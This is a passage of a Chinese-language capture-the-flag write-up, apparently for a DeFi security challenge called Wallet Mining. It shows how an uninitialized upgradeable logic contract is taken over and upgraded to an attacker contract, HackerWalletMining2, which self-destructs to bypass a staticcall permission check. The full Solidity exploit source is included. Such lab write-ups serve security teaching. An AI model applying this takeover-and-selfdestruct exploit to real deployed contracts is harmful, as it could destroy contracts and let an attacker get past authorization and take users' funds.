 我们发现`AuthorizerUpgradeable`的逻辑合约尚未初始化，所以我们可以初始化并升级合约。但要升级成什么样子？由于`walletDeployer`中通过staticCall获取信息：

```
        assembly { 
            let m := sload(0)
            if iszero(extcodesize(m)) {return(0, 0)}
            let p := mload(0x40)
            mstore(0x40,add(p,0x44))
            mstore(p,shl(0xe0,0x4538c4eb))
            mstore(add(p,0x04),u)
            mstore(add(p,0x24),a)
            if iszero(staticcall(gas(),m,p,0x44,p,0x20)) {return(0,0)}
            if and(not(iszero(returndatasize())), iszero(mload(p))) {return(0,0)}
        }
```

如果我们将合约自毁，就可以绕过这里面的限制。从而有

`        console.log(await walletDeployer.callStatic.can(player.address,DEPOSIT_ADDRESS)); // True!!!`

所以我们编写自毁合约`HackerWalletMining2`：

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";

import "hardhat/console.sol";

contract HackerWalletMining2 is Initializable, OwnableUpgradeable, UUPSUpgradeable {

    constructor(){

    }

    function hack(address receiver) public{
        console.log("destruct");
        selfdestruct(payable(receiver));
    }

    function upgradeToAndCall(address imp, bytes memory wat) external payable override {
        _authorizeUpgrade(imp);
        _upgradeToAndCallUUPS(imp, wat, true);
    }

    function _authorizeUpgrade(address imp) internal override onlyOwner {}

}
```

然后我们在`test/wallet-mining/wallet-mining.challenge.js`中编写，这里我们通过`init`获取到逻辑合约的权限，并通过`upgradeToAndCall`完成自毁。
